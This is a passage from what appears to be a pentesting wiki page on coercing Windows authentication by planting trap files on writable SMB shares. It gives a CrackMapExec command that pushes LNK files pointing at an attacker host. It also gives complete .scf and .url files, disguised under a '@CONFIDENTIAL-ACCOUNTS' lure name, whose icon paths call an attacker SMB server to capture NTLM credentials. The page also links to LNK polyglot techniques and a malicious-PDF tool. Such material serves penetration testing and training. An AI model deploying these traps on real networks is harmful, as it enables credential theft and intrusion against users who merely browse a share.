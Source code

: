 {% hint style="info" %}
**Advanced traps**

* LNK files can be mixed with some VBA: [Pwned by Shortcut](https://medium.com/secjuice/pwned-by-a-shortcut-b21473970944)
* LNK files can be mixed with some HTA: [LNK HTA Polyglot](https://hatching.io/blog/lnk-hta-polyglot/)
{% endhint %}

[CrackMapExec](https://github.com/mpgn/CrackMapExec) (Python) can be used to automatically push LNK files to a writeable share.

```bash
# Creation & upload
cme smb "target" -d "domain" -u "user" -p "password" -M slinky -O NAME="SHARE" SERVER="ATTACKER_IP"

# Cleanup
cme smb "target" -d "domain" -u "user" -p "password" -M slinky -O NAME="SHARE" SERVER="ATTACKER_IP" CLEANUP=True
```
{% endtab %}

{% tab title=".scf" %}
An SCF shortcut using an icon file located on a remote SMB share will be parsed by the file explorer that will request the icon file and authenticate if necessary.

{% code title="@CONFIDENTIAL-ACCOUNTS.scf" %}
```bash
[Shell]
Command=2
IconFile=\\$ATTACKER_IP\something\something.ico
[Taskbar]
Command=ToggleDesktop
```
{% endcode %}
{% endtab %}

{% tab title=".url" %}
A URL shortcut using an icon file located on a remote SMB share will be parsed by the file explorer that will request the icon file and authenticate if necessary.

{% code title="@CONFIDENTIAL-ACCOUNTS.url" %}
```bash
[InternetShortcut]
URL=https://www.thehacker.recipes/
IconIndex=0
IconFile=\\$ATTACKER_IP\something\something.ico
```
{% endcode %}
{% endtab %}
{% endtabs %}

### PDF documents

[https://github.com/deepzec/Bad-Pdf](https://github.com/deepzec/Bad-Pdf)
